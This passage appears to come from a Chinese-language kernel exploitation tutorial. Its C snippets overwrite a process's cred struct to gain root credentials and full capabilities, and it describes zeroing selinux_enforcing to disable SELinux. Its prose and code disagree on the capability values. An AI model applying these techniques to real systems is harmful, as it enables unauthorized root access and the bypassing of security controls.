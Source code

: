 如何绕过 DAC 呢？与之有关的成员是

```
kuid_t        uid;        /* real UID of the task */
kgid_t        gid;        /* real GID of the task */
kuid_t        suid;        /* saved UID of the task */
kgid_t        sgid;        /* saved GID of the task */
kuid_t        euid;        /* effective UID of the task */
kgid_t        egid;        /* effective GID of the task */
kuid_t        fsuid;        /* UID for VFS ops */
kgid_t        fsgid;        /* GID for VFS ops *

```

把他们全部改成 root 用户的。

```
kwrite_u32(cred_ptr + offsetof(struct cred, uid), 0);
kwrite_u32(cred_ptr + offsetof(struct cred, gid), 0);
kwrite_u32(cred_ptr + offsetof(struct cred, suid), 0);
kwrite_u32(cred_ptr + offsetof(struct cred, sgid), 0);
kwrite_u32(cred_ptr + offsetof(struct cred, euid), 0);
kwrite_u32(cred_ptr + offsetof(struct cred, egid), 0);
kwrite_u32(cred_ptr + offsetof(struct cred, fsuid), 0);
kwrite_u32(cred_ptr + offsetof(struct cred, fsgid), 0);

```

想绕过 CAP，就把 CAP 相关的字段改成 root 用户相同的即可

```
kernel_cap_t    cap_inheritable; /* caps our children can inherit */
kernel_cap_t    cap_permitted;    /* caps we're permitted */
kernel_cap_t    cap_effective;    /* caps we can actually use */
kernel_cap_t    cap_bset;    /* capability bounding set */
kernel_cap_t    cap_ambient;    /* Ambient capability set */

```

如何改写呢？全改成 0。

```
kwrite_u64(cred_ptr + offsetof(struct cred, cap_inheritable), ~(u64)0);
kwrite_u64(cred_ptr + offsetof(struct cred, cap_permitted), ~(u64)0);
kwrite_u64(cred_ptr + offsetof(struct cred, cap_effective), ~(u64)0);
kwrite_u64(cred_ptr + offsetof(struct cred, cap_bset), ~(u64)0);
kwrite_u64(cred_ptr + offsetof(struct cred, cap_ambient), ~(u64)0);

```

绕过 MAC
------

MAC 与 selinux 相关，所以只需要想办法禁用 selinux 即可。而 selinux 就是一个内核的导出符号 selinux_enforcing，找到他的地址，把它的值改成 0 就好了。

 

怎么找到呢？我们知道 / proc/kallsyms 里存储了所有的内核符号，但通常我们 cat 这个文件都看不到内核真正的地址，除非是 root 用户。修改源码把 kallsyms.c 里的 seq_printf(m, "%pK %c %s\n", (void *)iter->value,iter->type, iter->name) 的 %pK 换成 %p 根本不可能，或者把 / proc/sys/kernel/kptr_restrict 从 1 改成 0 也不太现实，暂时就不打内核符号表 kallsyms 的主意了。
